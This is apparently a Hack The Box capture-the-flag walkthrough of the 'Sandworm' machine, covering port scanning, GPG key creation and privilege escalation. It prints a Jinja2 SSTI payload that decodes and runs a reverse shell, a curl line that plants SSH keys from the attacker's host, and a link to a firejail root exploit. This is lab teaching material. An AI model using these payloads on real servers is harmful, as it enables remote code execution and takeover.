 # Sandworm

## Sandworm

> from hackthebox

![image](https://user-images.githubusercontent.com/56447720/247915265-ab265e9a-b810-4d69-8b66-cd6f2ec5092e.png)

## Port scan

```bash

PORT     STATE SERVICE   REASON  VERSION
22/tcp   open  ssh       syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp   open  http      syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp  open  ssl/http  syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA/emailAddress=atlas@ssa.htb/organizationalUnitName=SSA/localityName=Classified
| Issuer: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA/emailAddress=atlas@ssa.htb/organizationalUnitName=SSA/localityName=Classified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-04T18:03:25
| Not valid after:  2050-09-19T18:03:25
| MD5:   b8b7:487e:f3e2:14a4:999e:f842:0141:59a1
| SHA-1: 80d9:2367:8d7b:43b2:526d:5d61:00bd:66e9:48dd:c223
| -----BEGIN CERTIFICATE-----
| MIIDpTCCAo0CFBEpfzxeoSRi0SkjUE4hvTDcELATMA0GCSqGSIb3DQEBCwUAMIGN
| MQswCQYDVQQGEwJTQTETMBEGA1UECAwKQ2xhc3NpZmllZDETMBEGA1UEBwwKQ2xh
| c3NpZmllZDEaMBgGA1UECgwRU2VjcmV0IFNweSBBZ2VuY3kxDDAKBgNVBAsMA1NT
| QTEMMAoGA1UEAwwDU1NBMRwwGgYJKoZIhvcNAQkBFg1hdGxhc0Bzc2EuaHRiMCAX
| DTIzMDUwNDE4MDMyNVoYDzIwNTAwOTE5MTgwMzI1WjCBjTELMAkGA1UEBhMCU0Ex
| EzARBgNVBAgMCkNsYXNzaWZpZWQxEzARBgNVBAcMCkNsYXNzaWZpZWQxGjAYBgNV
| BAoMEVNlY3JldCBTcHkgQWdlbmN5MQwwCgYDVQQLDANTU0ExDDAKBgNVBAMMA1NT
| QTEcMBoGCSqGSIb3DQEJARYNYXRsYXNAc3NhLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAKLTqQshN1xki+1sSRa6Yk5hlNYWroPyrVhm+FuKMpNL
| cjW9pyNOV/wvSdCRuk/s3hjqkIf12fljPi4y5IhqfcpTk+dESPGTiXdrE7oxcWHn
| jQvE01MaT9MxtIwGiRBupuFvb2vIC2SxKkKR28k/Y83AoJIX72lbeHJ9GlNlafNp
| OABrIijyFzBou6JFbLZkL6vvKLZdSjGy7z7NKLH3EHTBq6iSocSdxWPXtsR0ifeh
| hODGT2L7oe3OWRvClYTM3dxjIGC64MnP5KumamJoClL2+bSyiQzFJXbvcpGROgTU
| 01I6Qxcr1E5Z0KH8IbgbREmPJajIIWbsuI3qLbsKSFMCAwEAATANBgkqhkiG9w0B
| AQsFAAOCAQEAdI3dDCNz77/xf7aGG26x06slMCPqq/J0Gbhvy+YH4Gz9nIp0FFb/
| E8abhRkUIUr1i9eIL0gAubQdQ6ccGTTuqpwE+DwUh58C5/Tjbj/fSa0MJ3562uyb
| c0CElo94S8wRKW0Mds0bUFqF8+n2shuynReFfBhXKTb8/Ho/2T2fflK94JaqCbzM
| owSKHx8aMbUdNp9Fuld5+Fc88u10ZzIrRl9J5RAeR5ScxQ4RNGTdBVYClk214Pzl
| IiyRHacJOxJAUX6EgcMZnLBLgJ1R4u7ZvU3I3BiaENCxvV6ITi61IwusjVCazRf3
| NNn7kmk7cfgQqPCvmwtVrItRHxWEWnkNuQ==
|_-----END CERTIFICATE-----
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Secret Spy Agency | Secret Security Service
8000/tcp open  http-alt? syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

* There was no intresting directories to further investigate.

## Foothold

* After further enumeration, the best page to further pwn was `/guide`
* here, we can verify the pgp signature with our public key.

![image](https://user-images.githubusercontent.com/56447720/250083559-9fb7532f-0c39-453e-afa3-3def58556ca9.png)

* now we create our own public key and signature to verify it here.

<details>

<summary>What is gpg? How to create a key? (Detailed)</summary>

**Step 1: Install GnuPG**

GnuPG (GPG) is a widely-used implementation of PGP for Linux. It provides the tools necessary for generating and managing PGP keys, as well as signing and encrypting messages. Installing GnuPG ensures that you have the required software to work with PGP.

* You can install GnuPG by running the following command in your terminal:

```bash
sudo apt-get install gnupg
```

**Step 2: Generate a key pair**

A key pair consists of a public key and a private key. The public key can be freely distributed to others, while the private key should be kept secret and protected. When someone wants to send you an encrypted message or verify your signature, they use your public key.

* To generate a key pair, use the following command:

```bash
gpg --gen-key
```

This command will start an interactive process to guide you through key generation. You will be prompted to provide your name, email address, and a passphrase to protect your private key. Your name and email address are used to associate the key with your identity.

**Step 3: Find your key ID**

Each key pair has a unique identifier called a key ID. The key ID is used to identify your public key and distinguish it from others. It's important to know your key ID when sharing your public key with others or when referencing your key in commands or configurations.

* To list your generated keys and find your key ID, run the following command:

```bash
gpg --list-keys
```

* It will look like this :

<img src="https://user-images.githubusercontent.com/56447720/250085690-e23a21c3-95e5-4079-b12e-9a46cce7d2c3.png" alt="image" data-size="original">

**Step 4: Sign a message**

Signing a message involves using your private key to generate a digital signature that verifies the authenticity and integrity of the message. When you sign a message, recipients can use your public key to verify that the message was indeed signed by you and has not been tampered with.

To sign a message using your private key, you need the message text saved in a file. Let's assume the message is stored in a file called message.txt.

* Use the following command to sign the message:

```bash
gpg --clearsign --output signature.asc --local-user <your-key-ID> message.txt
```

Replace with your actual key ID. This command will generate a signed version of the message in ASCII-armored format and save it in a file called signed\_message.asc. The ASCII-armored format allows the signed message to be easily shared via email or other text-based communication methods.

That's it! You've now created a PGP key pair, found your key ID, and signed a message using your private key. Remember to keep your private key secure and protected, as it is the key to verifying your identity and signing messages.

</details>

<details>

<summary>TLDR; (Short version of key creation)</summary>

```bash

# Install GnuPG
sudo apt-get install gnupg

# Generate a key pair
gpg --gen-key

# List keys and find your key ID
gpg --list-keys

# Sign a message using your private key
gpg --clearsign --output signature.asc --local-user <your-key-ID> message.txt

# Print your public key
gpg --export --armor <your-key-ID>

```

* Your key would look like this :

<img src="https://user-images.githubusercontent.com/56447720/250085690-e23a21c3-95e5-4079-b12e-9a46cce7d2c3.png" alt="image" data-size="original">

</details>

## Finding web vuln

* After we create our signature and public key, let's check it out on the website.

![image](https://user-images.githubusercontent.com/56447720/250088309-0f8b1783-f2a3-415d-9c31-67ff84a50b61.png)

* We can see that our name is echo(ed) out. Maybe a SSTI Vulnerability.
* We have to manipulate the name parameter. Let's edit our key.

### Exploitation

* Enter the following command :

```bash
gpg --edit-key 6941D2162010EED2C <--REDACTED--> # YOUR KEY

```

* To select the uid: (Enter the number that is along with your key)

![image](https://user-images.githubusercontent.com/56447720/250091351-d5cd13d5-f51d-40ec-8658-5e8925ca538d.png)

* A `*` will appear once it's selected
* Creating payload :

![image](https://user-images.githubusercontent.com/56447720/250091622-f8b21421-239c-44d7-9e87-c8484b9e1e60.png)

> The blue line denotes the command, the yellow denotes the payload.

* Create a signed message :

```bash
gpg --clearsign --output signature.asc --local-user <your key> message.txt
```

* Export public key

```bash
 gpg --export --armor <your key> > heapbytes.pub   
```

**SSTI**

* We can confirm that SSTI can be expoitated here.

![image](https://user-images.githubusercontent.com/56447720/250092457-ae1bf828-1fd9-4b21-824d-925fd51046fd.png)

* Repeat the steps with your own payload
* The one I used was :

```bash
 
#create rev shell payload from https://revshells.com
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo " <replace your base64 encoded rev shell payload>" | base64 -d | bash').read() }}

```

![image](https://user-images.githubusercontent.com/56447720/250096559-c01598ff-11b1-4c34-92db-d073cd2f7f94.png)

* And we got the shell

## User shell

* After a few while, I found an intresting file which had the password of the user.
* `~/.config/httpie/sessions/localhost_5000/admin.json`

### **SSH with the creds**

![image](https://user-images.githubusercontent.com/56447720/250097981-7ce5d2f6-7e60-471b-ad7a-dfca971650fb.png)

* DONE

### Privilage Escalation (2)

![image](https://user-images.githubusercontent.com/56447720/250100000-4f27fb4b-9b01-42bd-9165-d53371a2f948.png)

* Source code of the running application

![image](https://user-images.githubusercontent.com/56447720/250110738-59d87655-de3a-4817-95af-168d93b84068.png)

* It's using a logger library, and fortunately we have access to write down into that library.
* Path of the logger library :

![image](https://user-images.githubusercontent.com/56447720/250111049-b18ec1af-8dd0-4e58-a7d0-a05ee149c440.png)

* Let's edit the library code

![image](https://user-images.githubusercontent.com/56447720/250115668-4a4405fd-a2ac-4586-88ff-e2023e9dcfb9.png)

* Wait for few minutes (less than 2 mintues) to get the shell.

## Privilage Escalation (root)

![image](https://user-images.githubusercontent.com/56447720/250120305-02088181-5fb7-4d12-9f57-766f0a07d683.png)

* We are going to use this script to get root
  * https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25
* We can add our `ssh keys` into the remote machine for better shell experience.
* Create your own key with :

```bash
  
ssh-keygen -t rsa -b 4096 -C "your_mail@domain"
```

* Copy the `~/.ssh/id_rsa.pub` into remote machine under `/.ssh/`
  * I used curl to download the file since vim was not working properly (maybe stablize shell and resume)
  * `curl <your-ip>/id_rsa.pub ~/.ssh/authorized_keys`
  * `chmod 700 ~/.ssh`
  * `chmod 600 ~/.ssh/authorized_keys`
* boom, we just need to ssh now and run the script, I used curl agian to copy the script from my local machine to the remote machine.

![image](https://user-images.githubusercontent.com/56447720/250175917-4227a8a7-1386-4b8b-9a4d-0c51257bf4e7.png)

* Run the `firejail --join=<id>` command as prompted into another ssh shell.
* now run `su -` or `su` for the root shell.

![image](https://user-images.githubusercontent.com/56447720/250175791-35740f32-c6e5-4aa9-a0b0-842104938dea.png)

\_\_\_\_\_\_\_\_\_\_heapbyte's still pwning.
